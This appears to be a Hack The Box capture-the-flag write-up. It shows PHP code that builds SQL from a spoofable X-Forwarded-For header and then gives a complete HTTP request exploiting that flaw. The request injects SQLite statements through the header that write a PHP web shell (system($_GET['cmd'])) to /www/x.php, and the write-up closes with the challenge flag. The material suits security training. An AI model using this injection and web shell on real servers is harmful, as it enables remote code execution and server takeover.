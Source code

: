 ```php
public function subscribeUser($ip_address, $email)
{
    return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
}
```

In the `subscribeUser` function, PHP will execute the SQL without sanitizing our input.

And also we could see in this piece of code `challenge/models/SubscriberModel.php#L10:L19`

```php
public function getSubscriberIP(){
    if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)){
        return  $_SERVER["HTTP_X_FORWARDED_FOR"];
    }else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
        return $_SERVER["REMOTE_ADDR"];
    }else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
        return $_SERVER["HTTP_CLIENT_IP"];
    }
    return '';
}
```
At the `getSubscriberIP` function, its attempts to get the client IP, We could spoof this using `X-Forwarded-For` since its prioritizes `HTTP_X_FORWARDED_FOR` first.

In the `SQLite` DBMS,  `SQL Injection` could escalated into Remote Code Execution.

```
POST /subscribe HTTP/1.1
Host: 178.62.73.26:30911
Content-Length: 24
Cache-Control: max-age=0
Origin: http://178.62.73.26:30911
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://178.62.73.26:30911/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Connection: close
X-Forwarded-For: ','');ATTACH DATABASE '/www/x.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--

email=nyx%40nymare.world
```

![](intergalactic-3.png)

**HTB{inj3ct3d_th3_tru7h}**
